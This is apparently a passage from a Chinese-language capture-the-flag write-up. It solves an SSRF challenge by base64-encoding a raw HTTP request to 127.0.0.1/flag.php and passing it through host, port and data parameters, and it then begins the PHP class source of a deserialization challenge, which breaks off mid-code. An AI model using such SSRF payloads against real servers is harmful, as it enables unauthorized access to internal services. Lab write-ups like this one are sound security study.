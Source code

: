 ![image-20250227221540926](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250227221540926.png)

根据标题，猜测这里存在ssrf，故可以通过fsockopen尝试构造请求来获取flag，fwrite会将data的数据base64解密后写入fp中，故我们可以通过操作data参数来利用fsockopen构造请求

dirsearch扫描一下，发现一个/flag

![image-20250227221553826](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250227221553826.png)

故构造请求：

GET /flag.php HTTP/1.1 

Host:127.0.0.1

Connection:Close

Base64编码以后为

R0VUIC9mbGFnLnBocCBIVFRQLzEuMQ0KSG9zdDogMTI3LjAuMC4xDQpDb25uZWN0aW9uOiBDbG9zZQ0KDQo=

最终payload：

?host=127.0.0.1&port=80&data=R0VUIC9mbGFnLnBocCBIVFRQLzEuMQ0KSG9zdDogMTI3LjAuMC4xDQpDb25uZWN0aW9uOiBDbG9zZQ0KDQo=



------

###  pklovecloud

```php
<?php  

include 'flag.php';

class pkshow 

{  

  function echo_name()   

  {      

​    return "Pk very safe^.^";    

  }  

} 

class acp 

{  

  protected $cinder;  

  public $neutron;

  public $nova;

  function __construct() 

  {    

​    $this->cinder = new pkshow;

  }  

```